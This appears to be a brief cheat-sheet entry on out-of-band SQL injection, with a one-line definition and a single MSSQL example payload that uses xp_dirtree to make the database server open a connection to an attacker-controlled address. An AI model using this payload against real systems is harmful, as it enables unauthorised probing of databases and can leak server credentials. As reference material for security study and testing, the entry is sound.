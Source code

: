 # Out-of-Band (OAST) SQLi
( Vulnerability that consists of triggering an out-of-band network connection to a system that you control.)
 
 Beispiel-Payload
 ```sql
 '; exec master..xp_dirtree '//10.10.14.16/f' --
 ```
 
 